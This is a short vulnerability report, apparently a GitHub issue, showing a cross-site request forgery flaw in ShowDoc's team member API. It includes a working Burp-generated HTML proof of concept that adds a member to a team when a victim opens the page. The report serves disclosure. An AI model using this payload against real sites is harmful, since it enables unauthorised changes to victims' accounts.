



Create a new team, and there are no members in the team.



CSRF PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.showdoc.cc/server/index.php?s=/api/teamMember/save" method="POST">
      <input type="hidden" name="team&#95;id" value="1190" />
      <input type="hidden" name="member&#95;username" value="mima" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

after the user open the crafted web page.a request will be post to add a member in the team.



as we can see, a new member was added


